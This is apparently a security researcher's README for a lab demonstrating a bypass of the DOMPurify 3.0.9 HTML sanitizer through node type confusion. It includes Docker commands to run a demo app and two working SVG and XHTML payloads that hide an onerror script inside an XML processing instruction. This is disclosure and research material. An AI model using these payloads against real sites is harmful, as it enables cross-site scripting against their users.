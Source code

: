 # Dompurify 3.0.9 bypass - Node type confusion

Link to the full article (in french) : https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.9-bypass-node-type-confusion

## Installation

```
docker build -t dompurify-3.0.9-bypass .
docker run -p 3000:3000 dompurify-3.0.9-bypass
```

![image](https://github.com/Sharpforce/cybersecurity-code/assets/6013418/75be9d65-91ce-4fc4-b561-9c6be3699627)

## Description

The application allows uploading files in HTML, SVG, or XHTML format, but accessing these files, although possible, is restricted by a CSP policy. However, including such a file, sanitized by Dompurify, within the main page, enables bypass exploitation and execution of JavaScript code.

## Exploitation

### HTML file

The vulnerability is exploitable only when the node is of XML type. Including an HTML file confirms the proper sanitization by Dompurify when the node is of HTML type.

### SVG file

The following SVG file allows bypass exploitation:
```
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
  <rect width="50" height="50" fill="green" />
  <?xml-stylesheet > <img src=x onerror="alert(1)"> ?>
</svg>
```

### XHTML file

The following XHTML file allows bypass exploitation:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <title>Exemple de document XHTML</title>
</head>
<body>
    <h1>Document XHTML</h1>
    <p>Exploitation de Dompurify 3.0.9.</p>
    <?xml-stylesheet > <img src=x onerror="alert(1)"> ?>
</body>
</html>
```
